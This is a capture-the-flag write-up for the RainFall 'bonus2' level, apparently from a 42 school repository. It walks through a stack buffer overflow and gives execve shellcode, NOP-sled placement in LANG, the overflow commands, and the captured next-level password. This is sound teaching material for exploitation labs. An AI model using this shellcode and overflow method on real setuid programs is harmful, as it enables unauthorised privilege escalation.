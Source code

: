 # Bonus2

We can find an executable waiting for two inputs and print them by separating them with a space :
```
bonus2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 bla
bonus2@RainFall:~$ ./bonus2 bla bla
Hello bla
bonus2@RainFall:~$
```
After analyze it with gdb we can find two interesting functions : `main()` and `greetuser()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus2/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus2/source.c) for more details.  
So we enter 2 arguments to the program. Then it copies at most 40 bytes of argv[1] in a buffer, and at most 32 bytes of argv[2] in the same buffer at index 40 (so after argv[1]).  
WE can see that the program also checks the LANG env variable and sets a global variable to either 1 if LANG is equal to 'fi' or 2 if LANG is equal to 'nl'.  
Then in greetuser it copies a message (different length depending on the language) in a 64 bytes buffer. And then concatenate to it, our string given as parameter.  
Let's try to get the offset of `eip` with the differents possibles values of LANG with the pattern generator :  
- LANG!=fi && LANG!=nl
```
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()              // offset : ??
```
If we don't set LANG, our global variable is equal to 0. Then, the concatenation of  "Hello " and our string given as parameter is made on our buffer but it's not long enought to overwrite `eip`.  
- LANG=fi
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()              // offset : 18
```
- LANG=nl
```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()              // offset : 23
```
If LANG is either 'fi' or 'nl' and the parameter passed to `greetuser()` is long enough, we can overwrite the return address (`eip`) !  
<br />
<hr />

Lets's build our exploit:
- First, we'll need a [shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php) :  
	"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
- Second, put our shellcode in env variable LANG :  
	export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')  
	*Of course you can tape "nl" or "fi"*  
- Then, create templates for our args :  
	argv[1] : padding (40 bytes)  
	argv[2] : padding (18 or 23 bytes depends of LANG) + address inside `NOP` instructions (4 bytes)
- Determine the address inside `NOP` instructions :  
	Find the start address of LANG with gdb :
	- b *main+125
	- run $(python -c 'print "A"*40') bla
	- x/20s *((char**)environ)  
	Then add random value to reach an address inside `NOP` instructions  

LANG=nl
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
(gdb) b *main+125
(gdb) run $(python -c 'print "A"*40') bla
(gdb) x/20s *((char**)environ)
0xbffffeb4 + 50 (random value) = 0xbffffee6
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xe6\xfe\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
bonus2@RainFall:~$
```
LANG=fi
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
(gdb) b *main+125
(gdb) run $(python -c 'print "A"*40') bla
(gdb) x/20s *((char**)environ)
0xbffffeb4 + 50 (random value) = 0xbffffee6
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xe6\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
bonus2@RainFall:~$ su bonus3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
bonus3@RainFall:~$
```
Bonus2 passed!